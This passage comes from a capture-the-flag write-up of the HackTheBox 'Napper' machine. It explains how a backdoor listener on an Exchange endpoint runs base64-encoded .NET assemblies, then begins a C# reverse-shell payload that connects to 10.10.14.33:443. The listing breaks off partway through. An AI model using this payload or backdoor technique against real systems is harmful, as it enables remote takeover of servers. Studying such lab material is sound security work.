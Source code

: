 {% code overflow="wrap" %}

```
This means that any web request to /ews/MsExgHealthCheckd/ that contains a base64-encoded .NET assembly in the sdafwe3rwe23 parameter will be loaded and executed in memory. It's worth noting that the binary runs in a separate process and it is not associated with the running IIS server directly.
```

{% endcode %}

So, I needed a `base64` encoded .NET binary to run here. The references were pretty important to read as well:

{% embed url="https://www.elastic.co/security-labs/naplistener-more-bad-dreams-from-the-developers-of-siestagraph" %}

This basically told us how the binary works, and the value submitted in the parameter will have an assembly object created and executed it using the `Run` method. The resources were incredibly detailed, so I figured that the exploit used here has to be similar as well.

The blog also contained a nice Python Poc to run payloads:

![](../../.gitbook/assets/htb-napper-image-5.png)

## Payload Creation -> Reverse Shell

I used a basic reverse C# reverse shell that executed `powershell.exe` (as `cmd.exe` didn't work for some reason). The code must have a class called `Run` and a constructor for it.

```cs
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;


namespace payload
{
    public class Run
    {
        static StreamWriter streamWriter;
        public Run() 
        {
            using(TcpClient client = new TcpClient("10.10.14.33", 443))
            {
                using(Stream stream = client.GetStream())
```